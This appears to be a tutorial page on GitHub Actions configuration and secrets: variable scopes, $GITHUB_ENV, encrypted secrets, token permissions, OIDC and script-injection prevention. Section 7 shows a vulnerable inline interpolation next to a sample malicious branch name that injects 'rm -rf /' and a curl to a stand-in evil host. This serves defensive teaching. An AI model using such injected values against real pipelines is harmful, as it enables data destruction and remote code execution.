


# Secure Configuration & Credential Management

In enterprise CI/CD pipelines, hardcoding configuration values is sloppy, but hardcoding secrets (passwords, API tokens, cloud credentials, private keys) is catastrophic. GitHub Actions provides a multi-layered security architecture for injecting environment variables, encrypted secrets, and temporary short-lived credentials via OpenID Connect (OIDC).



---

## 1. Environment Variable Hierarchy & Scopes

Environment variables can be defined at three distinct scopes in a workflow. More granular scopes override broader ones:

```yaml
name: Variable Scope Demonstration

# 1. WORKFLOW LEVEL (Global to all jobs and steps in this file)
env:
  APP_ENV: staging
  LOG_LEVEL: info
  GLOBAL_CONFIG: enabled

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    
    # 2. JOB LEVEL (Inherits workflow env, overrides collisions for this job only)
    env:
      APP_ENV: production    # Overrides workflow-level APP_ENV
      PORT: 8080

    steps:
      - uses: actions/checkout@v4

      # 3. STEP LEVEL (Overrides both workflow and job level for this single step)
      - name: Run Integration Tests with Custom Env
        env:
          PORT: 9000         # Overrides job-level PORT
          DEBUG: "true"
        run: |
          echo "APP_ENV: $APP_ENV"       # prints: production (from job level)
          echo "LOG_LEVEL: $LOG_LEVEL"   # prints: info (from workflow level)
          echo "PORT: $PORT"             # prints: 9000 (from step level)
          echo "DEBUG: $DEBUG"           # prints: true (from step level)
```

---

## 2. Dynamic Environment Variables via `$GITHUB_ENV`

Often, a step computes a dynamic value (such as a Git short commit hash, semantic version, or build timestamp) that subsequent steps need to read as an environment variable. 

Writing to `$GITHUB_ENV` injects the variable into the shell environment of **all subsequent steps in that job**:

```yaml
jobs:
  dynamic-vars:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Compute Dynamic Metadata
        run: |
          # 1. Single-line variable assignment
          echo "SHORT_SHA=$(git rev-parse --short HEAD)" >> $GITHUB_ENV
          echo "BUILD_DATE=$(date -u +'%Y-%m-%d')" >> $GITHUB_ENV
          echo "VERSION=$(cat package.json | grep version | cut -d '\"' -f 4)" >> $GITHUB_ENV

          # 2. Multiline variable assignment using delimiter EOF
          echo "RELEASE_NOTES<<EOF" >> $GITHUB_ENV
          echo "Changelog for commit $(git rev-parse --short HEAD):" >> $GITHUB_ENV
          git log -3 --pretty=format:"- %s (%an)" >> $GITHUB_ENV
          echo "" >> $GITHUB_ENV
          echo "EOF" >> $GITHUB_ENV

      - name: Use Dynamic Variables in Downstream Step
        run: |
          echo "Container Image Tag: myapp:${{ env.VERSION }}-${{ env.SHORT_SHA }}"
          echo "Build Date: $BUILD_DATE"
          echo "Release Notes:"
          echo "$RELEASE_NOTES"
```

<Callout type="warning" title="Security Warning: Never write untrusted input directly to $GITHUB_ENV">
If parsing untrusted user input (such as issue titles or PR comments), attackers can inject malicious delimiter boundaries or override existing system variables like `LD_PRELOAD` or `PATH`. Always sanitize inputs or pass them via step-level `env:` blocks instead.
</Callout>

---

## 3. GitHub Default Context & Built-in Variables

GitHub Actions automatically exposes runtime contexts accessible via `${{ <context> }}` and predefined environment variables:

| Context Expression | Predefined Env Var | Description | Example Value |
| :--- | :--- | :--- | :--- |
| `${{ github.sha }}` | `GITHUB_SHA` | Full 40-character commit SHA | `a3b8d9f1c7e...` |
| `${{ github.ref_name }}` | `GITHUB_REF_NAME` | Branch name or Tag name | `main` or `v1.4.0` |
| `${{ github.repository }}` | `GITHUB_REPOSITORY` | Owner and repository name | `octocat/hello-world` |
| `${{ github.actor }}` | `GITHUB_ACTOR` | Username that initiated the run | `monalisa` |
| `${{ github.event_name }}` | `GITHUB_EVENT_NAME` | Event that triggered workflow | `push`, `pull_request` |
| `${{ runner.os }}` | `RUNNER_OS` | Operating system of the runner | `Linux`, `Windows`, `macOS` |
| `${{ runner.temp }}` | `RUNNER_TEMP` | Path to temporary directory | `/tmp/run` |

---

## 4. Encrypted Secrets Management

Secrets are encrypted using libsodium sealed boxes before being stored in GitHub. They are decrypted only when exposed to runners during workflow execution.

### Secret Scopes

```
Organization Secrets (Enterprise/Team-wide: shared across multiple repositories)
       └── Repository Secrets (Specific to one repository: e.g. NPM_TOKEN, SLACK_WEBHOOK)
              └── Environment Secrets (Scoped to environments like 'production' or 'staging')
```

### Adding Secrets in GitHub UI
1. Navigate to your repository on GitHub.
2. Go to **Settings** → **Secrets and variables** → **Actions**.
3. Click **New repository secret** or **New environment secret**.

```yaml
jobs:
  publish:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Authenticate to Container Registry
        uses: docker/login-action@v3
        with:
          registry: ghcr.io
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}

      - name: Deploy with Secret Injection
        env:
          DATABASE_URL: ${{ secrets.PROD_DATABASE_URL }}
          API_KEY: ${{ secrets.STRIPE_SECRET_KEY }}
        run: |
          # Secrets are automatically masked by GitHub's log scrubber:
          # Printing $API_KEY will produce '***' in logs!
          echo "Running database migration..."
          npm run db:migrate
```

### Log Masking & Secrets Protection
When GitHub Actions runner prints logs, it automatically replaces occurrences of known secrets with `***`. You can also manually register values to be masked:

```yaml
- name: Mask sensitive generated token
  run: |
    DYNAMIC_TOKEN=$(./generate-temp-token.sh)
    echo "::add-mask::$DYNAMIC_TOKEN"
    echo "GENERATED_TOKEN=$DYNAMIC_TOKEN" >> $GITHUB_ENV
```

---

## 5. Principle of Least Privilege: `GITHUB_TOKEN` Permissions

Every workflow has access to an automatic `${{ secrets.GITHUB_TOKEN }}`. By default, repository settings might give it overly broad permissions (read/write access to code, PRs, packages, issues).

Always declare explicit `permissions:` at the workflow or job level to follow least-privilege security:

```yaml
name: Safe PR Triage

on:
  pull_request:
    types: [opened]

# Lock down all permissions by default:
permissions:
  contents: read          # Read repo code
  pull-requests: write    # Post comments on PRs
  issues: none
  packages: none
  id-token: none

jobs:
  comment-pr:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/github-script@v7
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
          script: |
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: '👋 Thank you for opening this Pull Request! Our CI checks are now running.'
            });
```

---

## 6. OpenID Connect (OIDC): Keyless Cloud Authentication

Storing long-lived cloud credentials (like `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY`) in GitHub Secrets creates a severe security risk: if credentials leak, attackers have persistent cloud access until manually revoked.

With **OpenID Connect (OIDC)**, GitHub acts as an identity provider. Your cloud provider (AWS, GCP, Azure, or HashiCorp Vault) verifies cryptographic tokens from GitHub Actions and issues **temporary credentials (valid for 15-60 minutes)**.



### Complete AWS OIDC Setup Example

```yaml
name: Deploy to AWS with Keyless OIDC

on:
  push:
    branches: [ main ]

# CRITICAL: id-token: write allows requesting the OIDC JWT token
permissions:
  id-token: write
  contents: read

jobs:
  deploy-aws:
    runs-on: ubuntu-latest
    steps:
      - name: Check out repository
        uses: actions/checkout@v4

      # Connect to AWS using IAM Role ARN without storing ANY secret keys!
      - name: Configure AWS Credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeploymentRole
          aws-region: us-east-1
          audience: sts.amazonaws.com

      - name: Deploy CloudFormation / S3 Sync
        run: |
          aws sts get-caller-identity
          aws s3 sync ./dist s3://my-production-app-bucket/ --delete
          echo "✅ Securely deployed without static cloud keys!"
```

---

## 7. Preventing Script Injection Attacks

A critical security vulnerability occurs when untrusted context data (e.g. `${{ github.event.issue.title }}` or `${{ github.head_ref }}`) is directly interpolated into `run:` bash scripts:

```yaml
# ❌ DANGEROUS: Remote Code Execution / Command Injection vulnerability!
# If an attacker opens a PR with branch name: "feature; rm -rf /; curl http://evil.com"
- name: Vulnerable Step
  run: |
    echo "Working on branch: ${{ github.head_ref }}"

# ✅ SECURE: Pass context values through step-level environment variables
- name: Secure Step
  env:
    BRANCH_NAME: ${{ github.head_ref }}
  run: |
    echo "Working on branch: $BRANCH_NAME"
```

---

## Summary

- Use **Environment Variable Scopes** (`workflow` > `job` > `step`) to manage configuration cleanliness.
- Write to `$GITHUB_ENV` to pass dynamically generated metadata to downstream steps.
- Manage sensitive data with **Repository & Environment Secrets**; GitHub automatically scrubs known secrets from build logs.
- Always restrict `GITHUB_TOKEN` using explicit `permissions:` blocks (Least Privilege).
- Modern DevOps eliminates long-lived static credentials by adopting **Keyless OpenID Connect (OIDC)** authentication with cloud providers.
- Prevent command injection by always passing untrusted GitHub context variables via `env:` blocks rather than direct inline bash template strings.
